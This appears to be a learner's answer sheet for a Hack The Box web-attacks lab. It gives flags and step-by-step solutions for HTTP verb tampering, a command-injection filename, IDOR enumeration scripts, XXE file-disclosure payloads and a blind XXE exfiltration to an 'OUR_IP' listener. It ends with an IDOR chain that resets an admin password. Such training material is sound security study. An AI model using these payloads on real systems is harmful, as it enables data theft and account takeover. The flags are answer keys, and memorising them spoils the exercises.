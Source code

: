 # Bypassing Basic Authentication

1.  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.

Answer: HTB{4lw4y5_c0v3r_4ll_v3rb5}

Explanation: Simple change the HTTP Verb

# Bypassing Security Filters

1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Answer: HTB{b3_v3rb_c0n51573n7}

# Mass IDOR Enumeration

1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Answer: HTB{4ll_f1l35_4r3_m1n3}

The code: 

#!/bin/bash

url="http://94.237.54.116:59987/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done

# Bypassing Encoded References

Answer: HTB{h45h1n6_1d5_w0n7_570p_m3}

#!/bin/bash

url="http://94.237.50.242:47361/download.php?contract="

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64); do
        curl  "$url$encodedid" 
    done
done

# IDOR in Insecure APIs

1. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Explanation: Using the Burp proxy, there is a need to change the HTTP verb from POST to GET. And after that change the profile id in the url path to 5.

# Chaining IDOR Vulnerabilities

1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Answer: HTB{1_4m_4n_1d0r_m4573r}

Explanation: Send the request to Intruder in Burp Suite and then take a profile from 0 to 50, the 10th response in API got the role=staff_admin.
Then, send the request with PUT method with data used from the Intruder Response. See the flag.


IDOR Prevention:
IDOR caused by the improper access control on the back-end servers. 
1. Object-level access control
2. Secure references for the objects. 

# Local File Disclosure
1.  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Answer: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg

Explanation: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>Dana</name>
<tel>7780052000</tel>
<email>&company;</email>
<message>I feel this</message>
</root>
```
# Advanced File Disclosure
1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Answer: HTB{3rr0r5_c4n_l34k_d474}

Explnation: 

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
<email>&joined;</email>

# Blind Data Exfiltration

1. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

Answer: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}

Explanation: As this is XXE Blind Vulnerability, now the answer shouold be shown in open server on localhost. 
First, create the xml DTD file:

"""
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=<file>.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
"""

and then, to decode the shown content that will be in the open server output:
 
php file: index.php

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?> 
```

php -S 0.0.0.0:8000

The XXE xml payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
# Skill Assessment

1. First, there is an api path: GET /api.php/user/74 that is authenticated with given credentials. 
2. with request id 52 the response is {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
3. Request the /api.php/token/52 - Response: 
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
4. Request to change the password of the Administrator
```
PUT /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=74
Sec-GPC: 1

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne
```
5. Login to admin account

6. Request to retrieve the flag with XXE payload:
```
POST /addEvent.php HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 302
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=52
Sec-GPC: 1
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
            <root>
            <name>&Test;</name>
            <details>qwerqwer</details>
            <date>2025-02-20</date>
            </root>
```
Answer: HTB{m4573r_w3b_4774ck3r}